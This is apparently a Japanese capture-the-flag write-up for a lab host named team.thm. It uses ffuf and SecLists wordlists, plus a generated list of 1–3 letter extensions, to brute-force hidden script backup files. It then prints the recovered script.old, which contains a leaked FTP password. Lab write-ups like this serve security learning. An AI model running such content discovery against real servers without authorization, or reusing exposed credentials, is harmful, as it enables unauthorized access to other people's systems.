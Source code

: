 http://team.thm/scripts/script.sh  
http://team.thm/scripts/script.sh~  
http://team.thm/scripts/script.txt~  

等があるかと予想したが、存在しなかった。

ffuf を使う。

https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/file-extensions.txt

```shell
$ ffuf -w ./file-extensions.txt -X GET -u http://team.thm/scripts/script.FUZZ -fc 404
```

.txt しかヒットせず。

https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/file-extensions-all-cases.txt

```shell
ffuf -w ./file-extensions-all-cases.txt -X GET -u http://team.thm/scripts/script.FUZZ -fc 404

ffuf -w ./file-extensions-all-cases.txt -X GET -u http://team.thm/scripts/script.FUZZ~ -fc 404
```

.txt しかヒットせず。

アルファベット１～３桁のブルートフォースリストを作る。

```shell
$ echo {a..z} {a..z}{a..z} {a..z}{a..z}{a..z} | tr ' ' '\n' > combinations.txt
$ ffuf -w ./combinations.txt -X GET -u http://team.thm/scripts/script.FUZZ -fc 404

old                     [Status: 200, Size: 466, Words: 27, Lines: 19, Duration: 384ms]
txt                     [Status: 200, Size: 597, Words: 52, Lines: 22, Duration: 362ms]
```

old と判明。

script.old

```shell
#!/bin/bash
read -p "Enter Username: " ftpuser
read -sp "Enter Username Password: " T3@m$h@r3
echo
ftp_server="localhost"
ftp_username="$Username"
ftp_password="$Password"
mkdir /home/username/linux/source_folder
source_folder="/home/username/source_folder/"
cp -avr config* $source_folder
dest_folder="/home/username/linux/dest_folder/"
ftp -in $ftp_server <<END_SCRIPT
quote USER $ftp_username
quote PASS $decrypt
cd $source_folder
!cd $dest_folder
mget -R *
quit
```
